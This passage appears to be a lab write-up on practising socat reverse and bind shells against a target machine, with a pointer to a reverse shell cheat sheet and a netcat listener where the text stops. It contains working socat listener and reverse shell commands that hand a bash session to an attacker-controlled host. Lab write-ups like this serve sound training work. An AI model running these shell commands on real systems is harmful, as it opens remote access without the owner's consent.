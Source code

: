 ```
![img](/assets/img/wts24.png)

Step 4 -  Testing the connection as below

![img](/assets/img/wts25.png)

---


4. Practice ```reverse and bind shells``` using ```Socat on the Linux machine```. Try both the ```normal and special``` techniques.

### Reverse Shell using SSH session and socat listener and socat reverse shell commands
---

Step 1 - Setup the listener from the ATTACK Box terminal using port 1234
```
socat TCP-L:1234 -
```
![img](/assets/img/wts26.png)

After you can type any command on the Listener terminal on the Attackbox and the SSH terminal will have the same command running.

Step 2 - SSH to TARGET 

Step 3 - use socat revese shell command from Task 6 
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -Li"
socat TCP:10.10.8.56:1234 EXEC:"bash -Li"
```
Step 4 - run the commands from the Attacker Listener terminal
```
whoami
ls
```
![img](/assets/img/wts27.png) 

1:17:51
### Bind Shell using SSH session and socat listener and socat reverse shell commands
---
Step 1 - Use socat bind shells listener command in Task 6 on ATTACKer Terminal
```
socat TCP-L:1112 -
```
Step 2 - Use socat bind shells command on the Attacker Terminal 
```
socat TCP:10.10.8.56:1112 -
```
![img](/assets/img/wts28.png) 

---




5. Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques. Try to analyse them and see why they work.

Example using Telnet:

Step 1: Open a terminal
```
nc -vnp 8080